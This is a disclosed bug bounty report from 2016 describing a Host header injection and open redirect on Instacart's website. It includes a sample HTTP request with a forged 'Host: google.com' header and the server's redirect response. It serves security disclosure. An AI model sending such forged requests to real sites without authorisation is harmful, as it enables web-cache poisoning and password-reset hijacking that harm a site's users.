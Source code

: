 # Host Header Injection/Redirection in: https://www.instacart.com/

## Report Details
- **Report ID**: 158019
- **URL**: https://hackerone.com/reports/158019
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-10T00:13:32.757Z
- **Disclosed**: 2016-09-11T10:24:58.832Z

## Reporter
- **Username**: 0xm1racle
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
Hi,

Your website is vulnerable to Host Header Injection because the host header can be changed to something outside the target domain

In many cases, developers are trusting the HTTP Host header value and using it to generate links, import scripts and even generate password resets links with its value. This is a very bad idea, because the HTTP Host header can be controlled by an attacker. This can be exploited using web-cache poisoning and by abusing alternative channels like password reset emails.

GET / HTTP/1.1
Host: google.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close

HTTP/1.1 301 Moved Permanently
Date: Tue, 09 Aug 2016 23:55:09 GMT
Location: https://google.com/
Server: nginx
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Connection: Close
Content-Type: text/html
Content-Length: 178

Reference: https://www.acunetix.com/vulnerabilities/web/host-header-attack

Regards,
Clarck

## Attachments
- request.png
- responseinstacart.png
